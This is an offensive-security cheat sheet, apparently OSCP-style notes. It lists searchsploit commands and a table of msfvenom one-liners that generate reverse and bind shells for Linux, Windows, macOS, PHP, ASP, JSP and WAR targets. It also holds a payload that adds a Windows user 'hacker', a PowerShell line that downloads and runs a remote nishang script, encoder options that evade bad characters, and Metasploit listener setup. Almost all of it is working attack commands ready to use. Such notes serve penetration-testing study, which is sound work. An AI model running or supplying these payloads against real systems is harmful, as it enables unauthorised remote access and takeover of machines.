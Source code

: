 ##### Searchsploit

Locate service exploits.
```
searchsploit <Name Of Service>
```

Copy exploit to working directory.
```
searchsploit -m aspx/webapps/46153.py
```







##### Meta




## msfvenom

##### MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!
*PDF and DOCX versions contain the payload size in bytes and a few more commands.*


##### MSFVenom Cheatsheet

I may need to switch the shell.exe to meterpreter.exe, and then start a multihandler listener covered in a lower section of this guide.

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     |                   Description                    |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------: |
| msfvenom -l   payloads                                                                                                                                                                                                    |             List available payloads              |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        |               List payload options               |
| msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                                                                     |                 Payload Encoding                 |
| msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                  | Linux Meterpreter  reverse shell x86 multi stage |
| msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                     |  Linux Meterpreter  bind shell x86 multi stage   |
| msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             |        Linux bind shell x64 single stage         |
| msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          |       Linux reverse shell x64 single stage       |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                    |        Windows Meterpreter reverse shell         |
| msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe |      Windows Meterpreter http reverse shell      |
| msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                                                                      |          Windows Meterpreter bind shell          |
| msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                          |             Windows CMD Multi Stage              |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                                                           |             Windows CMD Single Stage             |
| msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                              |                 Windows add user                 |
| msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                                                                      |                Mac Reverse Shell                 |
| msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                                                         |                  Mac Bind shell                  |
| msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                                                             |                   Python Shell                   |
| msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                                                               |                    BASH Shell                    |
| msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                                                               |                    PERL Shell                    |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                                                                    |              ASP Meterpreter shell               |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                                                         |                    JSP Shell                     |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                                                         |                    WAR Shell                     |
| msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php                                                                                                                        |              pbcopy && echo '?php '              |
| msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                                                          |                Php Reverse Shell                 |
| msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                                                            |   Windows Exec Nishang Powershell in   python    |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                                                                   |          Bad characters shikata_ga_nai           |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                                                                      |            Bad characters fnstenv_mov            |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>            # Can use tun0 and eth0
msf>set lport <PORT> 

# This next part can probably be skipped, but lets test it out first

msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.  

# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/